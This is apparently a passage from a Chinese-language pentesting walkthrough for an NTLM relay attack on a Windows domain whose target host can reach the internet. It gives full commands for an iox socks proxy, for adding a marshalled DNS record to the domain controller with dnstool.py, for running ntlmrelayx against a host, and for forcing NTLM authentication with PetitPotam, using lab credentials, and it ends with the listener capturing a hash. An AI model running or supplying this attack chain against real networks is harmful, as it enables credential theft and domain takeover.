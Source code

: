   
一. 目标主机出网  
  
在目标出网的情况下可以直接在 VPS 服务器上进行监听。  
  
1.   
开启   
socks  
 代理并配置本地   
proxifier  
 。  
  
```
iox.exe proxy -l 8080
```  
  
  
2.   
向域控  
添加 DNS 解析记录  
。因为 LDAP 使用 TCP 而 DNS 查询使用 UDP （DNS 服务器一般默认支持 TCP 查询），为了实现实战中不同工具场景下更好的兼容性 ，最好是将 UDP 封装到 TCP 中传输 ，  
dnstool.py  
 已经集成了该功能，可以非常方便的直接使用。  
  
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.137 --action modify 192.168.214.134 --tcp＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElNVnpeR4DRjEJx1cclcqfpLIjhKPFibOgbRAxfOAicJ0dzTiakbp63ibJeg/640?wx_fmt=png&from=appmsg "")  
  
  
3.   
开启 relay 监听，因为目标主机出网因此不必指定端口。  
  
```
python ntlmrelayx.py -t 192.168.214.135 --smb2support
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTaickfzr63icBna6VLknAdpvHKRg9KEQWwvWVicVMrPTqib91lNPOdu1wVRGJNmfvibQ0wNF41BECGAxA/640?wx_fmt=png&from=appmsg "")  
  
4.   
强制目标主机发起   
NTLM 认证  
。  
  
```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElgJHQ5okYIjsexJU50BaIiaYm0p9N2rEGSKrlPIHNf3eFAY5STnVq5lQ/640?wx_fmt=png&from=appmsg "")  
  
  
5.   
监听主机接收到 Hash。  
  